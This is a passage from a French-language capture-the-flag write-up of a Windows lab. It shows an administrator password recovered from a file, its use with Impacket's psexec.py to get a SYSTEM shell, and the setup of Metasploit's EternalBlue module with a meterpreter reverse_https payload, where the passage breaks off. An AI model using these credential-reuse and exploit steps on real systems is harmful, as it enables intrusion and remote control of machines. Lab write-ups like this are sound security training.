 ```shellsession
                13081087 blocks of size 4096. 9568320 blocks available
```

On trouve effectivement des identifiants dans le fichier :  

```html
<Credentials>
    <Username>Administrator</Username>
    <Domain>beta</Domain>
    <Password>loveLyp4ssw0rd*!</Password>
</Credentials>
```

Si ça c'est pas mignon :p Les identifiants admin permettent de récupérer le flag final (f1f95d42573c2f3940bfae6fdba05e5a). That's it !  

On peut aussi obtenir un shell via le script psexec.py de Impacket par exemple :  

```shellsession
$ PYTHONPATH=. python2 examples/psexec.py 'BETA/Administrator:loveLyp4ssw0rd*!@10.1.1.15'
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.1.1.15.....
[*] Found writable share ADMIN$
[*] Uploading file pFwNnYkJ.exe
[*] Opening SVCManager on 10.1.1.15.....
[*] Creating service XvJH on 10.1.1.15.....
[*] Starting service XvJH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on 10.1.1.15.....
[*] Stoping service XvJH.....
[*] Removing service XvJH.....
[*] Removing file pFwNnYkJ.exe.....
```

Delta
-----

Qu'en est-il de cette fameuse faille SMB ? Metasploit dispose de plusieurs exploits pour cette faille largement connue sous le nom d'*EternalBlue* :  

```plain
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.1.1.15        yes       The target address range or CIDR identifier
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_https):

```